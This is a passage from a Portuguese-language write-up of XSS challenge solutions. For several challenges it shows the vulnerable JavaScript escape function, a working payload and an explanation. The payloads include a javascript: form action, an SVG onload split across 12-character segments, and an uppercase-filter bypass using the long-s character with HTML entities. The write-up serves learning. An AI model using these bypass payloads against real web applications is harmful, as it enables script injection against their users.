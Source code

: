 ```bash
```
- Payload funcional:
```bash
javascript:prompt(1)#{"action":1}
```
- Explicação:

A função implementada recebe um input `URL#JSON`, onde cria um formulário HTML com os dados do JSON e o submete via POST. Além de incluir um script que verifica se não contém `javascript:` ou `data:` antes de enviar. Para desviar as atribuições, o atacante injeta um payload onde a verificação `!/script:|data:/i.test(...)` só ocorre depois que o formulário já foi criado com `action=javascript:prompt(1)` e executa o `prompt(1)` antes mesmo do `submit()`.
[![imagem-2025-05-12-015959150.png](https://i.postimg.cc/9Fw6k19z/imagem-2025-05-12-015959150.png)](https://postimg.cc/tYyvZ32H)

#### Desafio 7: limite de 12 caracteres e múltiplos segmentos

- Código vulnerável:
[![imagem-2025-05-12-113126711.png](https://i.postimg.cc/L4cxXj0g/imagem-2025-05-12-113126711.png)](https://postimg.cc/t7z3vnb9)

```bash
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}        
```
- Payload funcional:
```bash
"><svg/a=#"onload='/*#*/prompt(1)'
```
- Explicação:

A função divide o input usando `#` como delimitador e gera parágrafos com o atributo `title` contendo os 12 primeiros caracteres de cada segmento. Para desviar as atribuições o payload usa primeiramente um `">` para fechar o `title`, em seguida um `<svg/a=` é interpretado como tag SVG, o que executa o `onload='/*...*/prompt(1)'` quando carregado.
[![imagem-2025-05-12-113936233.png](https://i.postimg.cc/mDLM5gDw/imagem-2025-05-12-113936233.png)](https://postimg.cc/CZ2zZYbB)

#### Deasfio 9:  regex <[a-zA-Z], uppercase forçado e tag

- Código vulnerável:
[![Captura-de-tela-2025-05-12-125921.png](https://i.postimg.cc/xTTFQ2sp/Captura-de-tela-2025-05-12-125921.png)](https://postimg.cc/HjRt0f1b)

```bash 
function escape(input) {
    // filter potential start-tags
    input = input.replace(/<([a-zA-Z])/g, '<_$1');
    // use all-caps for heading
    input = input.toUpperCase();

    // sample input: you shall not pass! => YOU SHALL NOT PASS!
    return '<h1>' + input + '</h1>';
}        
```
- Payload funcional:
```bash
<ſvg/onload=&#112;&#114;&#111;&#109;&#112;&#116;&#40;&#49;&#41;>
```
- Explicação:
